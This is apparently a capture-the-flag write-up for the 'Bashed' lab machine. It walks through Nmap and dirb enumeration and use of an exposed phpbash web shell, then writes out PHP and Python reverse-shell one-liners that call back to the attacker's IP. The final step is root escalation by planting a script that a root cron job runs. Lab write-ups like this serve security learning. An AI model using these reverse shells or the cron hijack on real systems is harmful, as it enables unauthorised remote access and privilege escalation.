 ![image](https://user-images.githubusercontent.com/105310322/187503139-1330b005-f9be-4a05-9bf9-5296ecc3d166.png)

### Tools: Nmap, 

Running Nmap we get port 80 running Apache 2.4.18. Curl did not give anything extra and an Nmap scripot scan did not find anything. We did get some luck with Dirb and we can check that part out.

```console
└──╼ [★]$ sudo nmap -sC -A -O 10.129.64.44
Starting Nmap 7.92 ( https://nmap.org ) at 2022-08-15 17:02 BST
Nmap scan report for 10.129.64.44
Host is up (0.0048s latency).
Not shown: 999 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=8/15%OT=80%CT=1%CU=34558%PV=Y%DS=2%DC=T%G=Y%TM=62FA6E1
OS:8%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=Z%CI=I%II=I%TS=8)OPS
OS:(O1=M539ST11NW7%O2=M539ST11NW7%O3=M539NNT11NW7%O4=M539ST11NW7%O5=M539ST1
OS:1NW7%O6=M539ST11)WIN(W1=7120%W2=7120%W3=7120%W4=7120%W5=7120%W6=7120)ECN
OS:(R=Y%DF=Y%T=40%W=7210%O=M539NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD
OS:=S)

Network Distance: 2 hops

TRACEROUTE (using port 995/tcp)
HOP RTT     ADDRESS
1   5.54 ms 10.10.14.1
2   4.90 ms 10.129.64.44

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 19.79 seconds
```
```console
└──╼ [★]$ curl -I http://10.129.64.44
HTTP/1.1 200 OK
Date: Mon, 15 Aug 2022 16:04:23 GMT
Server: Apache/2.4.18 (Ubuntu)
Last-Modified: Mon, 04 Dec 2017 23:03:42 GMT
ETag: "1e3f-55f8bbac32f80"
Accept-Ranges: bytes
Content-Length: 7743
Vary: Accept-Encoding
Content-Type: text/html
```

```console
└──╼ [★]$ dirb http://10.129.64.44

-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Mon Aug 15 17:06:04 2022
URL_BASE: http://10.129.64.44/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://10.129.64.44/ ----
==> DIRECTORY: http://10.129.64.44/css/                                        
==> DIRECTORY: http://10.129.64.44/dev/                                        
==> DIRECTORY: http://10.129.64.44/fonts/                                      
==> DIRECTORY: http://10.129.64.44/images/                                     
+ http://10.129.64.44/index.html (CODE:200|SIZE:7743)                          
==> DIRECTORY: http://10.129.64.44/js/                                         
==> DIRECTORY: http://10.129.64.44/php/                                        
+ http://10.129.64.44/server-status (CODE:403|SIZE:300)                        
==> DIRECTORY: http://10.129.64.44/uploads/                                    
                                                                               
---- Entering directory: http://10.129.64.44/css/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/dev/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/fonts/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/images/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/js/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/php/ ----
(!) WARNING: Directory IS LISTABLE. No need to scan it.                        
    (Use mode '-w' if you want to scan it anyway)
                                                                               
---- Entering directory: http://10.129.64.44/uploads/ ----
+ http://10.129.64.44/uploads/index.html (CODE:200|SIZE:14)                    
                                                                               
-----------------
END_TIME: Mon Aug 15 17:06:36 2022
DOWNLOADED: 9224 - FOUND: 3
```
The /dev directory looks the most interesting and digging slightly further takes us to http://10.129.64.44/dev/phpbash.php

Easy day. We can already navigate to and grab the user flag. Since we have a php bash lets create a reverse shell with it.

```console
www-data@bashed:/var/www/html/dev# ls
phpbash.min.php
phpbash.php
```
```console
www-data@bashed
:/home/arrexel# cat user.txt

343c****************************
```
We set up the listener and run the script and we are in.

```console
bashed:/# php -r '$sock=fsockopen("10.10.14.93",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
```console
└──╼ [★]$ nc -lvnp 1234
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:33962.
/bin/sh: 0: can't access tty; job control turned off
$ 
```
We still can't do anything different but running sudo -l shows that scriptmanager can be used. Note: running the reverse shell to use script manager is required since the limited php shell from the webpage would not allow the sudo command with scriptmanager.

```console
$ sudo -l
Matching Defaults entries for www-data on bashed:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on bashed:
    (scriptmanager : scriptmanager) NOPASSWD: ALL
$ sudo -u scriptmanager bash -i
bash: cannot set terminal process group (879): Inappropriate ioctl for device
bash: no job control in this shell
scriptmanager@bashed:/$ ls
```
Awesome now we are scriptmanager but we cannot access the root directory yet. There is an interesting directory labeled /scripts. This directory has a python script and a text file. My first assumption was that I could create a script to read the root.txt flag but my scripting is limited. I noticed that the .txt and .py were updating at the same time which suggests a cronjob being ran by root. With this we have our last step.

```console
scriptmanager@bashed:/$ cd scripts
cd scripts
scriptmanager@bashed:/scripts$ ls
ls
test.py
test.txt
scriptmanager@bashed:/scripts$ cat test.txt
cat test.txt
testing 123!scriptmanager@bashed:/scripts$ cat test.py
cat test.py
f = open("test.txt", "w")
f.write("testing 123!")
f.close
scriptmanager@bashed:/scripts$ 
```
```console
scriptmanager@bashed:/scripts$ ls -la
ls -la
total 20
drwxrwxr--  2 scriptmanager scriptmanager 4096 Aug 15 09:37 .
drwxr-xr-x 23 root          root          4096 Jun  2 07:25 ..
-rw-r--r--  1 scriptmanager scriptmanager   66 Aug 15 09:55 sol.py
-rw-r--r--  1 scriptmanager scriptmanager  110 Aug 15 10:19 test.py
-rw-r--r--  1 root          root            12 Aug 15 10:19 test.txt
```
We are going to set up 1 last reverse shell in order to gain root. We are going to make our own reverse shell script taken from https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md

We are going to use the python reverse shell since its being executed in a python script and set up our listener to catch it. After a minute or so the cronjob executes the script from the directory and we get our reverse shell and the flag!!

```console
scriptmanager@bashed:/scripts$ echo 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.93",1235));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py
<);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")' > sol.py  
```

```console
└──╼ [★]$ nc -lvnp 1235
Ncat: Version 7.92 ( https://nmap.org/ncat )
Ncat: Listening on :::1235
Ncat: Listening on 0.0.0.0:1235
Ncat: Connection from 10.129.64.44.
Ncat: Connection from 10.129.64.44:46748.
# ls
ls
sol.py	test.txt
# id
id
uid=0(root) gid=0(root) groups=0(root)
# cat /root/root.txt
cat /root/root.txt
353d****************************
```
WHOOOOOO!!!

